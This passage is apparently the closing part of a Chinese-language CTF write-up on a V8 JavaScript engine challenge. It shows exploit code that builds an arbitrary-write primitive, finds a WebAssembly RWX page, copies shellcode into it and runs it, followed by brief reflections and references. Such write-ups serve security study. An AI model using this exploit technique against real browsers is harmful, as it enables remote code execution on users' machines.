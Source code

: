 ```javascript
function setUint32(address,value){
    corrupt_arr[backing_store_idx] = i2f(address);
    target_view.setUint32(0,value,true);
}

var wasm_instance_addr = objToPtr(wasmInstance) + external_pointer;
var rwx_page_addr = getUint64(wasm_instance_addr + 0x68n);
console.log("[+] wasm_instance_addr: " + hex(wasm_instance_addr));
console.log("[*] rwx_page_addr : 0x" + rwx_page_addr.toString(16));

// copy shellcode 
for(let i = 0;i < shellcode.length;i++){
    setUint32(rwx_page_addr + BigInt(i*4),shellcode[i]);
}

f();
```

## 后记

其实这题和EscapeAnalysis阶段的操作好像没什么相关的，感觉只是借这个阶段来把checkMaps节点来消除。

我后面去看了下别人的分析文章，发现Array对象的前2个内存布局（map，property）居然可以硬编码，orz，这样就不用想尽脑汁去泄露map了

## 参考资料

Escape Analysis in V8 ：https://www.youtube.com/watch?v=KiWEWLwQ3oI&t=744s

2020 Pwn2Win OmniTmizer Challenge：https://yichenchai.github.io/blog/omnitmizer